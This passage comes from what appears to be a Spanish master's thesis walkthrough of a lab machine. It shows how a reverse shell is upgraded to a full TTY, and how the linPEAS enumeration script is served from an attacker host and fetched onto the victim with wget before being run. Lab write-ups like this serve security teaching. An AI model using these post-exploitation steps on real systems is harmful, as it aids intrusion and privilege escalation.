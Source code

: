 Ya que el shell que obtenemos es algo rudimentario (no nos permite utilizar las flechas de movimiento, o funciones de búsqueda), decidimos mejorarlo. Para ello se realizan los siguientes pasos:
\begin{enumerate}
    \item Primero, investigamos si está \textit{Python} instalado, utilizando el comando \texttt{which python python2 python3}. Con esto descubrimos que podemos utilizar \textit{Python 3}.
    \item Ejecutamos el siguiente comando en la máquina víctima: \texttt{python3 -c `import pty; pty.spawn(``/bin/bash``)`}
    \item En la máquina, pulsamos los botones \texttt{Ctrl + z} para dormir el proceso actual.
    \item Luego, en la máquina host (no la víctima) se escribe \texttt{stty raw -echo}.
    \item Volvemos a activar el proceso dormido anteriormente con \texttt{fg}.
    \item Se crean las siguientes variables de entorno \texttt{export SHELL=bash \&\& export TERM=xterm-256color}
    \item Por último, se ejecuta el comando \texttt{reset}.
\end{enumerate}

Tras realizar esto, logramos tener un shell completamente funcional.\\

A continuación se decide utilizar la herramienta \textit{linPEAS}\cite{peas}. Para añadir el script a la víctima, se decide levantar un servidor \acrshort{http} temporal en la máquina host que contiene el script \texttt{linpeas.sh}. Esto se hace con el comando:
\begin{lstlisting}[language=bash]
python -m http.server 8000
\end{lstlisting}

Y en la máquina víctima nos lo bajamos con \texttt{wget}.

\begin{lstlisting}[language=bash]
wget http://10.10.14.49:8000/linpeas.sh
\end{lstlisting}

Una vez tenemos el archivo en la máquina víctima, le damos permisos de ejecución (\texttt{chmod +x linpeas.sh}) y lo ejecutamos.\\

El resultado de \textit{linPEAS}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/04_linpeas.txt}{Output de \textit{04\_linpeas.txt}}}, encontramos varios posibles vectores de ataque, pero ninguno ha resultado ser explotable. También se han encontrado algunos archivos ``extraños`` como \texttt{/opt/backups/archives/} y \texttt{/opt/backups/playground/} y archivos y procesos del usuario \textit{luis}.\\

